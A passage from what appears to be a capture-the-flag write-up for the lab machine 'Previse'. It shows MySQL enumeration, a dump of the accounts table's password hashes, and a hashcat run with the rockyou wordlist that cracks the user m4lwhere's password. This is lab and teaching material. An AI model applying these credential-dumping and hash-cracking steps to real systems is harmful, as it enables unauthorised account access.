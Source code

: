 There is only one custom database named `previse`.

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Looking at the tables, `accounts` looks particularily interesting.

```
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
```

Getting everything from this table we can retrieve the hash for the user m4lwhere.

```
mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | whatever | $1$🧂llol$QLnqA0.eAutt05CqQgN2E0 | 2021-08-07 19:33:19 |
|  3 | access   | $1$🧂llol$QLnqA0.eAutt05CqQgN2E0 | 2021-08-07 20:27:16 |
+----+----------+------------------------------------+---------------------+
3 rows in set (0.00 sec)
```

This cracks after some time with hashcat.

```
$ hashcat -m 500 hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.1.1) starting...
...[snip]...
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Sat Aug  7 20:49:26 2021 (6 mins, 38 secs)
Time.Estimated...: Sat Aug  7 20:56:04 2021 (0 secs)
Guess.Base.......: File (/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    18660 H/s (6.90ms) @ Accel:256 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413760/14344384 (51.68%)
```